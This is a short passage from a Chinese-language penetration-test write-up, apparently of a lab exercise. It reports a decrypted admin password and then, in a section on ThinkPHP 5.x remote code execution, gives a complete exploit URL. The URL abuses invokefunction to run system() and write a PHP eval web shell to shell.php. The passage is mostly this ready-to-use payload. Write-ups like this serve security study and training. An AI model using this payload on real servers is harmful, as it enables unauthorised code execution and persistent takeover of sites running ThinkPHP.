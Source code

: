 解密得到 密码admin@12345+

![图片.png](assets/1698900855-9434c13a1ebbd73d78c16e7169b306f0.png)

# 0x07 80.1.1.12 ThinkPHP5.x远程代码执行

熟系的首页，以及醒目的ThinkPHP

![图片.png](assets/1698900855-192b509b37282dd959dca3951994c7ea.png)  
发现其果然存在远程命令执行漏洞，利用远程命令执行漏洞写入webshell：

```php
http://80.1.1.12/?s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=system&vars\[1\]\[\]=echo%20^%3C?php%20@eval($\_REQUEST\[%22cmd%22\])?^%3E%3Eshell.php
```
